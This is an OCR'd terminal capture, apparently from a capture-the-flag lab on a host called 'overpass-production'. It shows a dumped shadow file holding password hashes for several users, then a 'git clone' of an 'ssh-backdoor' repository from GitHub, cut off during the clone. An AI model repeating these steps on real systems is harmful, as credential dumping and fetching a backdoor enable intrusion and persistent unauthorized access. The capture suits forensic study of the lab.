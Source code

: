 ```
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
lxd:*:18295:0:99999:7:::
uuidd:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
landscape:*:18295:0:99999:7:::
pollinate:*:18295:0:99999:7:::
sshd:*:18464:0:99999:7:::
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
james@overpass-production:~$ git clone https://github.com/NinjaJc01/ssh-backdoor

<git clone https://github.com/NinjaJc01/ssh-backdoor
Cloning into 'ssh-backdoor'...
remote: Enumerating objects: 18, done.        
remote: Counting objects:   5% (1/18)        
remote: Counting objects:  11% (2/18)        
remote: Counting objects:  16% (3/18)        
remote: Counting objects:  22% (4/18)        
remote: Counting objects:  27% (5/18)        
remote: Counting objects:  33% (6/18)        
remote: Counting objects:  38% (7/18)        
remote: Counting objects:  44% (8/18)        
remote: Counting objects:  50% (9/18)        
remote: Counting objects:  55% (10/18)        
remote: Counting objects:  61% (11/18)        
remote: Counting objects:  66% (12/18)        
remote: Counting objects:  72% (13/18)        
remote: Counting objects:  77% (14/18)        
remote: Counting objects:  83% (15/18)        
remote: Counting objects:  88% (16/18)        
remote: Counting objects:  94% (17/18)        
remote: Counting objects: 100% (18/18)        
remote: Counting objects: 100% (18/18), done.        
remote: Compressing objects:   6% (1/15)        
remote: Compressing objects:  13% (2/15)        
remote: Compressing objects:  20% (3/15)        
remote: Compressing objects:  26% (4/15)        
remote: Compressing objects:  33% (5/15)        
```